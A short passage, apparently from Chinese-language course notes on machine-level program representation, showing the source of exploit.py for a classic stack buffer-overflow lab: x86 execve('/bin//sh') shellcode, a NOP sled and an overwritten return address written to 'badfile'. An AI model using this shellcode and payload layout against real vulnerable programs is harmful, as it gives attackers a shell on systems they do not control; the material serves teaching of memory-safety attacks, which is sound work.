     <img src="程序的机器级表示_static/55.png" width="450"/>
</div>

下面是 exploit.py 文件的源代码：

```python{.line-numbers}
import sys

shellcode = (
    "\x31\xc0"      # xorl  %eax,%eax
    "\x50"          # pushl %eax
    "\x68""//sh"    # pushl $0x68732f2f
    "\x68""/bin"    # pushl $0x6e69622f
    "\x89\xe3"      # movl  %esp,%ebx
    "\x50"          # pushl %eax
    "\x53"          # pushl %ebx
    "\x89\xe1"      # movl  %esp,%ecx
    "\x99"          # cdq
    "\xb0\x0b"      # movb  $0x0b,%al
    "\xcd\x80"      # int   $0x80
).encode('latin-1')

# Fill the content with NOP
content = bytearray(0x90 for i in range(300))

# Put the shellcode at the end
start = 300 - len(shellcode)
content[start:] = shellcode

# Put the address at the beginning
ret = 0xbfffeaf8 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')

# Write the content to a file
file = open("badfile", "wb")
file.write(content)
file.close()
```
